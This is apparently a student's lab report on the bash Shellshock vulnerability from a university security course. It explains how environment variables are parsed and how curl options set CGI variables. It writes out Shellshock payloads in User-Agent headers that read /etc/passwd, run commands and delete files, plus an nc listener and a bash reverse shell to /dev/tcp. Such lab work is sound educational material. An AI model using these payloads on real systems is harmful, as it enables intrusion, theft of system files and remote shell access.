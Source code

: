 Task1: "/bin/bash_shellshock" echo $foo didn't print foo as environment but "declare -f foo" printed the definition of foo as a function due to the 
    vulnerability of bash_shellshock.
    "bin/bash" echo $foo printed foo as an environment variable which has been passed by the parent, but "declare -f foo" didn't print the definition 
    since it is not considered as a function since it is not considered asa  function. 
    
 Task2: -v prints out the variables and values from the http packet. 
        -A sets the HTTP_USER_AGENT variable
        -e sets the HTTP_REFERER variable
        -H "AAAAAA: BBBBBB" creates HTTP_AAAAAA and sets it to value BBBBBB
        
        the -H, -A and -e can be used to create arbitary variables. 
        
        
        
        
   ![Comp seclab2 2.2.1v](https://github.com/Rania-ME/csci-476-594-spring2021-private/blob/main/Comp%20seclab2%202.2.1v.JPG)
   
   
   
        
   ![Comp seclab2 2.2.2A](https://github.com/Rania-ME/csci-476-594-spring2021-private/blob/main/Comp%20seclab2%202.2.2A.JPG)
   
   
   
        
   ![Comp seclab2 2.2.3e](https://github.com/Rania-ME/csci-476-594-spring2021-private/blob/main/Comp%20seclab2%202.2.3e.JPG)
   
   
   
        
   ![Comp seclab2 2.2.4H](https://github.com/Rania-ME/csci-476-594-spring2021-private/blob/main/Comp%20seclab2%202.2.4H.JPG)
        
        
        
  Task3: curl -A "() { echo; cat /etc/passwd;}" http://localhost/cgi-bin/myprog2.cgi
         curl -A "() { echo; bin/id;}" http://localhost/cgi-bin/myprog2.cgi
         curl -A "() { echo; touch /tmp/fil;}" http://localhost/cgi-bin/myprog2.cgi
         curl -A "() { echo; rm /tmp/fil;}" http://localhost/cgi-bin/myprog2.cgi
         It is only a writable file. 
         
         
         
         
   ![Comp seclab2 3.1](https://github.com/Rania-ME/csci-476-594-spring2021-private/blob/main/Comp%20seclab2%203.1.JPG)
   
   
         
         
 Task4: "nc -lv 9090" on the attacker machine
         The attacker machine acts as a linstener till it finds traffic in the same port it is listening to. 
         "bin/bash -i > /dev/tcp/10.2.6/9090 0<&1 2>&1
         In real attacks we have to inject the code in the victims machin; yet, for demonstration purposes, we're running the command directly on the victims machine. 
Task5: The attack was possible with "bash" intstead of "bash_shellshock"
